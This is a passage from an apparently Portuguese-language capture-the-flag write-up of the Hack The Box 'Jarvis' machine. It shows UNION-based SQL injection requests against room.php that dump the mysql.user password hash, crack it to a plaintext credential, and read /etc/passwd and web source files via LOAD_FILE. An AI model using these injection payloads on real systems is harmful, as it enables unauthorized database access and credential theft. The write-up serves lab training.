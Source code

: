 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b8.png)

Verifico quais campos estão dentro dessa tabela `msyql` uma vez que a `hotel` não trouxe nada de interessante

`GET /room.php?cod=999999+union+select+"1","2",(SELECT+group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n")+from+Information_Schema.COLUMNS+where+TABLE_SCHEMA+=+'mysql'),"4","5","6","7" HTTP/1.1`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b9.png)

Esse *users* me interessou, uma vez que pode ser que encontre usuários válidos para outras aplicações no servidor

No pentestmonkey.net tem como faço pra listar esses usuários

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b10.png)

Então, faço a extração

`GET /room.php?cod=999999+union+select+"1","2",(SELECT+group_concat(host,+user,+password)+FROM+mysql.user),"4","5","6","7" HTTP/1.1`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_b11.png)

`localhostDBadmin*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0`

Bom, conseguimos um hash e um usuário, vamos quebrar ele agora. Verifico como faço pra quebrar esse hash do mysql

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_j.png)

Realizo a quebra da senha

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_j1.png)

DBadmin:imissyou

### Outro modo de se descobrir a senha

Bom, também há outro modo de se descobrirmos essa senha, através de um LFI pelo SQLInjection

`GET /room.php?cod=999999+union+select+"1","2",(LOAD_FILE("/etc/passwd")),"4","5","6","7" HTTP/1.1`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_l.png)

Posso abrir o room.php pra ver como ele está estruturado

`GET /room.php?cod=999999+union+select+"1","2",(LOAD_FILE("/var/www/html/room.php")),"4","5","6","7" HTTP/1.1`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_l1.png)

Verifico que ele faz a conexão com o connection.php então possivelmente lá vai ter a senha do banco de dados

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_l2.png)
